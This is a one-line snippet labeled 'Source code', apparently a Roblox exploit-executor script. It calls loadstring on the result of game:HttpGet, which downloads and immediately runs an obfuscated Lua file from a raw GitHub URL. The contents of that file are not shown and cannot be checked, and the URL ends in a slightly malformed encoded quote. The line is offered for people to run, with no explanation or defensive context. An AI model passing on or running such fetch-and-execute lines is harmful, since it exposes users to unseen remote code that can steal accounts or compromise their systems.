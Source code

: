 loadstring(game:HttpGet("https://raw.githubusercontent.com/yosup46/script/main/obf_7VU76j3pPNEM4HC1qJoNkcSrXpv5muivfgi12ad68L9VC1g30G7Ini9f6G78b9yi.lua%22))() 
